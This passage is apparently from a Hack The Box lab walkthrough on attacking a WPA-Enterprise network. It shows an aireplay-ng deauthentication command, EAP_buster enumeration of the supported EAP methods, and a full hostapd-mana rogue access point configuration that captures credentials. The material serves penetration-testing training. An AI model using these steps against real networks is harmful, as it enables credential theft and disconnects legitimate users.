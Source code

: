 - Client STA: **16:C5:68:79:A8:12**
    

If PMK caching is **disabled**, force a reconnect to capture EAP identity:

```bash
$ aireplay-ng -0 3 -a 9C:9A:03:39:BD:7A -c 16:C5:68:79:A8:12 wlan0mon
```

Open the capture in Wireshark (`eap` filter) → find **Response, Identity** (e.g., `HTB\Sentinal`).

### 3) Map Supported EAP Methods (RADIUS side)

Use **EAP‑Buster** with a real identity to see what methods the RADIUS supports for that user:

```bash
$ /opt/EAP_buster/EAP_buster.sh HTB-Corp 'HTB\Sentinal' wlan0mon
```

Example results show support for: `EAP‑TLS, PEAP‑MSCHAPv2, PEAP‑TLS, PEAP‑GTC, TTLS‑PAP, TTLS‑MSCHAPv2, ...`  
This tells you which **weaker inner methods** you can try to coerce (GTC / TTLS‑PAP).

### 4) Attack Path A – hostapd‑mana (manual, fine‑grained)

#### 4.1 Create AP config

`hostapd.conf`:

```ini
# Interface configuration
interface=wlan1
ssid=HTB-Corp
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=hostapd.eap_user

# Mana Configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1

# Certificate Configuration
ca_cert=ca.pem
server_cert=server.pem
private_key=server-key.pem
dh_file=dh.pem
```
